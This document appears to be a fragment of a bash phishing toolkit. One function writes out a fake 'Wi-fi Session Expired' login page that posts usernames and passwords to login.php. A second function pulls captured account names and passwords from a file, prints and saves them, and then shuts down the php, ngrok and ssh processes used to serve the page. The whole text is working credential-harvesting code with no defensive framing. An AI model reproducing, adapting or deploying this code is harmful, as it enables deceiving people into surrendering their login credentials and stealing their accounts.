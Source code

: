 createpage() {
default_cap1="Wi-fi Session Expired"
default_cap2="Please login again."
default_user_text="Username:"
default_pass_text="Password:"
default_sub_text="Log-In"

read -p $'\e[1;92m[\e[0m\e[1;77m*\e[0m\e[1;92m] Title 1 (Default: Wi-fi Session Expired): \e[0m' cap1
cap1="${cap1:-${default_cap1}}"

read -p $'\e[1;92m[\e[0m\e[1;77m*\e[0m\e[1;92m] Title 2 (Default: Please login again.): \e[0m' cap2
cap2="${cap2:-${default_cap2}}"

read -p $'\e[1;92m[\e[0m\e[1;77m*\e[0m\e[1;92m] Username field (Default: Username:): \e[0m' user_text
user_text="${user_text:-${default_user_text}}"

read -p $'\e[1;92m[\e[0m\e[1;77m*\e[0m\e[1;92m] Password field (Default: Password:): \e[0m' pass_text
pass_text="${pass_text:-${default_pass_text}}"

read -p $'\e[1;92m[\e[0m\e[1;77m*\e[0m\e[1;92m] Submit field (Default: Log-In): \e[0m' sub_text
sub_text="${sub_text:-${default_sub_text}}"

echo "<!DOCTYPE html>" > sites/create/login.html
echo "<html>" >> sites/create/login.html
echo "<body bgcolor=\"gray\" text=\"white\">" >> sites/create/login.html
IFS=$'\n'
printf '<center><h2> %s <br><br> %s </h2></center><center>\n' $cap1 $cap2 >> sites/create/login.html
IFS=$'\n'
printf '<form method="POST" action="login.php"><label>%s </label>\n' $user_text >> sites/create/login.html
IFS=$'\n'
printf '<input type="text" name="username" length=64>\n' >> sites/create/login.html
IFS=$'\n'
printf '<br><label>%s: </label>' $pass_text >> sites/create/login.html
IFS=$'\n'
printf '<input type="password" name="password" length=64><br><br>\n' >> sites/create/login.html
IFS=$'\n'
printf '<input value="%s" type="submit"></form>\n' $sub_text >> sites/create/login.html
printf '</center>' >> sites/create/login.html
printf '<body>\n' >> sites/create/login.html
printf '</html>\n' >> sites/create/login.html


}

catch_cred() {

account=$(grep -o 'Account:.*' sites/$server/usernames.txt | cut -d " " -f2)
IFS=$'\n'
password=$(grep -o 'Pass:.*' sites/$server/usernames.txt | cut -d ":" -f2)
printf "\e[1;93m[\e[0m\e[1;77m*\e[0m\e[1;93m]\e[0m\e[1;92m Account:\e[0m\e[1;77m %s\n\e[0m" $account
printf "\e[1;93m[\e[0m\e[1;77m*\e[0m\e[1;93m]\e[0m\e[1;92m Password:\e[0m\e[1;77m %s\n\e[0m" $password
cat sites/$server/usernames.txt >> sites/$server/saved.usernames.txt
printf "\e[1;92m[\e[0m\e[1;77m*\e[0m\e[1;92m] Saved:\e[0m\e[1;77m sites/%s/saved.usernames.txt\e[0m\n" $server
killall -2 php > /dev/null 2>&1
killall -2 ngrok > /dev/null 2>&1
killall ssh > /dev/null 2>&1
if [[ -e sendlink ]]; then
rm -rf sendlink
fi
exit 1